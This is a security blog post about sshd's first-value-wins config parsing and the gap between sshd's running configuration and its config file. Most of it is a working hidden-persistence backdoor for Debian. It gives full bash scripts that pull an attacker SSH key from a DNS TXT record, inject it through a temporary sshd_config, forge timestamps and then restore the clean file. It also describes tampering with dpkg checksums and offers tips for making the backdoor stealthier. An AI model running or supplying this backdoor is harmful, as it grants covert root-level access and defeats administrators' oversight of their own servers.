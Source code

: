 ```yaml
---
layout: post
title: "Everything that uses configurations should report the values they are using (or: achieving persistence with a hidden SSH backdoor)"
author: "Joshua Rogers"
categories: security
---
```


Configuration parsing is an interesting topic I have been working on in the context of my hacking and creating simple backdoors which are hidden from your average sysadmin.

A recent post titled [Everything that uses configuration files should report where they're located](https://utcc.utoronto.ca/~cks/space/blog/sysadmin/ReportConfigFileLocations) piqued my interest, as it related to the unique ways that configuration files are located, prioritized, and eventually parsed. The original post argued that programs should output the location that configuration files are parsed. I concur, and also believe that programs should report their _configurations_ as they are running. This post, among some information about `sshd`, outlines why.

As pointed out in the comments of [a HN post](https://news.ycombinator.com/item?id=36465886), parsing of configuration files generally take a "last occurrence wins" strategy -- if the same configuration option is specified multiple times, the final one takes preference (assuming the option cannot be specified multiple times). However, some programs, like `sshd` take the opposite approach: the _first_ occurrence wins. From `man sshd(8)`:
```
Unless noted otherwise, for each keyword, the first obtained value will be used.
```

_sshd_ also offers functionality to check the configuration _file_:

```
     -T      Extended test mode.  Check the validity of the configuration file, output the effective configuration to stdout and then exit.  Optionally, Match rules may be applied by specifying the connection parameters using one or more -C options.

     -t      Test mode.  Only check the validity of the configuration file and sanity of the keys.  This is useful for updating sshd reliably as configuration options may change.
```
One of the gotchas here is that this test (as it _is_ written) parses the configuration file as it exists; it does _not_ print the current configuration of a running _sshd_ daemon.

In the context of hacking, this is particularly useful, as it is possible to load a malicious `sshd_config` file, reload `sshd`, and then overwrite the malicious configuration file with an innocent-looking version. Your average sysadmin which may look at the `sshd_config` file or run `sshd -T` to check the configuration will be none-the-wiser to the actual configuration options used.

I recently made use of this functionality to create a minimalist ssh backdoor on Debian, achieving persistence quite easily. Using two scripts and updating systemd\'s `ssh.service` file to run the scripts before and after `sshd` starts, persistence using ssh is gained on the server. (Note: I also altered `/var/lib/dpkg/info/openssh-server.md5sums` to state the new ssh.service has the correct checksum.)

The first script has the following functionality:
1. Determine the proper `authorizedkeysfile` value.
2. Create the folder `/etc/calendar/` if it does not already exist, copying the access and modifications times of the `/etc/` folder.
3. Retrieve an SSH public key from the TXT record of `$(hostname).joshua.hu` and save it to `/etc/calendar/root`.
4. Copies the proper sshd configuration file to a temporary file.
5. Overwrites the original sshd configuration file with an `authorizedkeysfile`  option, which contains both the proper value as well as the `/etc/calendar/root` location (ensuring that this malicious `authorizedkeysfile` option is loaded first).
6. Appends the `loglevel` configuration to  the configuration file (ensuring it is loaded first).
7. Appends the original sshd configuration file from the temporary file, to the new sshd configuration file.

```bash
#!/bin/bash
keysfile=`/usr/sbin/sshd -T | awk -F authorizedkeysfile '/authorizedkeysfile/ {print $NF}'` || keysfile=".ssh/authorized_keys"

if [ ! -d "/etc/calendar/" ]; then
    mkdir /etc/calendar/
    touch -r /etc/ /etc/calendar/
fi

dig +short TXT $(hostname).joshua.hu | sed 's/\x22//g' > /etc/calendar/root

cp /etc/ssh/sshd_config /etc/ssh/sshd_config.bak

echo "AuthorizedKeysFile /etc/calendar/root ${keysfile}" > /etc/ssh/sshd_config
echo "LogLevel ERROR" >> /etc/ssh/sshd_config
cat /etc/ssh/sshd_config.bak >> /etc/ssh/sshd_config
exit 0
```

This script is run when sshd is (re)started, _before_ the sshd binary itself is executed, using the `ExecStartPre` systemd directive.

The second script, which is executed _after_ the sshd binary is running (using the `ExecStartPost` systemd directive) simply moves the original sshd configuration file back to its original location.

```bash
#!/bin/bash
mv /etc/ssh/sshd_config.bak /etc/ssh/sshd_config
touch -r /etc/ /etc/ssh/sshd_config
exit 0
```

The key which exists in `/etc/calendar/root` will now be accepted for all users on the server. A sysadmin looking at the `/etc/ssh/sshd_config` file will see nothing spectacular, and `sshd -T` will not report the in-memory configuration. Of course, if the sysadmin looks at the ssh.service file, they will see it has been altered (and which will be overwritten when `openssh-server` updates).

Things get a bit more interesting when it comes to to `sshd`. `sshd_config` in Debian 11+ and Ubuntu 20.04+ "[sets several options as standard in /etc/ssh/sshd_config which are not the default](https://manpages.debian.org/bullseye/openssh-server/sshd_config.5.en.html)". Namely, `Include /etc/ssh/sshd_config.d/*.conf`. This is the first actionable configuration in `/etc/ssh/sshd_config` on Debian 11 and Ubuntu 20.04.

Therefore, instead of editing `/etc/ssh/sshd_config`, it is possible to simply create a file ending in `.conf` in `/etc/ssh/sshd_config.d/` and restart `sshd`, and then delete the file.

What's even more fun is that when `sshd` is reloaded, current connections do not acquire the new configuration. For multiplexed SSH connections, this means you may even hide your connection using an old configuration.

Is this what the DoD meant by [living off the land](https://media.defense.gov/2023/May/24/2003229517/-1/-1/0/CSA_Living_off_the_Land.PDF)? By knowing how programs use configuration files and abusing their functionality for exploitation?

A more persistent threat would use something like [shc](https://github.com/neurobin/shc) to convert these scripts into binaries, use some type of encryption/encoding for the retrieval of the public key (versus plaintext over DNS), and use an alternative to altering the `ssh.service` systemd file (for example some type of service that monitors for when `sshd` starts/reloads and performs the necessary changes at the appropriate times, independent of systemd.)
